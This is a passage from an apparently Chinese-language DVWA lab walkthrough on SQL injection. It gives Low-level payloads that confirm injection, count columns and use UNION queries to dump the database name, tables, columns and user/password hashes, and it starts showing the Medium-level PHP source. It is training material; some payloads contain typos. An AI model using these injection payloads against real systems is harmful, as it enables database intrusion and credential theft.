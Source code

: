     ?> 
    
        

没有任何过滤

#### 1.判断是否存在注入点

尝试万能公式`1' or 1=1 #`-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20210317085407654.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl81NDY0ODQxOQ%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)

#### 2\. 判断为字符型注入,猜字段数

    1' oder by 1 #
    1' oder by 2 #
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20210317085702711.png%23pic_center)

    1' oder by 3 #
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20210317085640665.png%23pic_center)则字段数为3

#### 3.联合注入爆库

    1' union select 1,database()#
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20210317090318121.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl81NDY0ODQxOQ%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)则当前使用的数据库为dvwa

#### 4.接下来便是爆表，爆列，爆内容

爆表：`1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='dvwa'#`

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20210317090628196.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl81NDY0ODQxOQ%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)爆列：`1' union select 1,group_concat(column_name) from information_schema.columns where table_name ='users'#`-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20210317090709945.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl81NDY0ODQxOQ%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)爆列中的内容：`1' union select1,concat(user,password) from users#`

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20210317090811245.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl81NDY0ODQxOQ%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

## Medium
### 源代码

     <?php
    
    if( isset( $_POST[ 'Submit' ] ) ) {
        // Get input
        $id = $_POST[ 'id' ];
    
        $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
    
        $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
        $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );
    